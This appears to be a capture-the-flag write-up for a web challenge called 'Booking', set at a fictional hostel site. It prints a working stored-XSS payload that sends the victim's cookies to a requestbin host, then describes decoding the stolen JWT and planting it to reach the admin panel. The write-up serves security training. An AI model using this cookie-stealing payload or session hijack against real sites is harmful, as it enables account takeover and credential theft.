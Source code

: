 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:
<img align="center" src="Images/Booking_01.png">
Create an account. The credentials don't matter all that much, just remember them.<br>
After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
Go to this site in a different tab: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md<br>
<br>
Copy the following snippet of code and paste it into the text box in the original site. <br>
For example:
<img src=x onerror=this.src='https://enqewxf0bhc69.x.pipedream.net/?'+document.cookie;><br>

https://pipedream.com/requestbin<br>
Create a public bin and paste the link you got into the src of the code above<br>
Send the message and check for the token in the requested bin<br>
Go to https://jwt.io/ and translate the Bearer<br>
Use the 'cookie editor' extension or access the cookies though the 'Application' tab in the 'inspect' of the site.<br>
Paste the bearer value, save it and refresh the page<br>
Now you should see a new yellow button next to 'My Moose' that says 'Admin Panel'. <br>
Now this is the buggy part. Enter the admin panel and you will either see a blank page, or you will see the flag. <br>
If you don't see the flag, repeat the login part and redo the cookie edit. Repeat until it works

